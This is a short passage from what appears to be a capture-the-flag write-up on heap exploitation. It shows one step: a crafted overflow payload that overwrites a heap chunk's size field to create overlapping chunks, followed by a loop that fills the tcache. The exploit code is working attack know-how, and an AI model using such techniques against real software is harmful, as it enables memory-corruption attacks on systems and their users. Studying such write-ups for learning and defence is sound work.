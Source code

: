 ![](./index_files/73dffed6-facd-41a0-b481-5e24577c05a3.png)

Then, I use **house 0** to make the overflow to overwrite the size of the chunk at **0x15d0** to **0x8d1**.
```
#overlapping first
upgrade(0, "\xaa" * 0x400 + p64(0) + p64(0x8d1))

for i in range(0, 7):
    buy_house(7, 0x90, "\x11" * 0x90)
    sell(7)
```

![](./index_files/cb48b397-1a45-4758-a87f-5ec40a815ff3.png)
